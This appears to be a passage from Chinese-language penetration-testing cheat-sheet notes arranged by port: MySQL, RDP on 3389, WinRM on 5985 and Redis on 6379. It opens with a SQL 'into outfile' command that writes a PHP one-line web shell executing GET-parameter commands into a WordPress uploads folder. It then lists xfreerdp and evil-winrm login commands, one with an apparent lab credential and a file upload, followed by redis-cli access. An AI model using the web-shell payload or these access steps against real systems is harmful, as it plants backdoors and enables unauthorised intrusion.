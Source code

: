 直接写入一句话木马

```
select "<?php system($_GET['132']); phpinfo();?>" into outfile '/var/www/https/blogblog/wp-content/uploads/shell.php';
```



## 3389端口 **远程桌面协议** RDP

连接windows远程桌面

```
/v: // 指定需要远程连接的系统ip或域名 
/u: // 远程系统上的用户名 
/p: // 你可以直接在这条命令输用户密码，若此时不指定可以运行时输入 
/f: // 全屏 
/w: // 指定远程桌面屏幕宽度 
/h: // 指定远程桌面屏幕高度 
/monitors: // 指定远程桌面在哪个显示器打开

xfreerdp /v:192.168.8.8:33389 /u:root /p:lhr  /sound
```

## 5985端口 WinRM 

它支持通过 HTTP（S） **远程管理 Windows 系统**，并在此过程中利用 SOAP。它从根本上由 WMI 提供支持，将自己表现为基于 HTTP 的 WMI作接口。

**Evil-winrm**

Evil-winrm此程序可在启用此功能的任何Microsoft
Windows服务器上使用（通常端口为5985），当然只有在你具有使用凭据和权限时才能使用。包括使用纯文本密码远程登录、SSL 加密登录、
NTLM 哈希登录、密钥登录、文件传输、日志存储等功能。



```
evil-winrm -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie

上传文件：在已连接的情况下进行上传
upload /root/test.txt
```



## 6379端口 redis 

连接redis数据库

```
redis-cli -h ip --user user --pass pass 
```

获取服务器信息

```
info
```
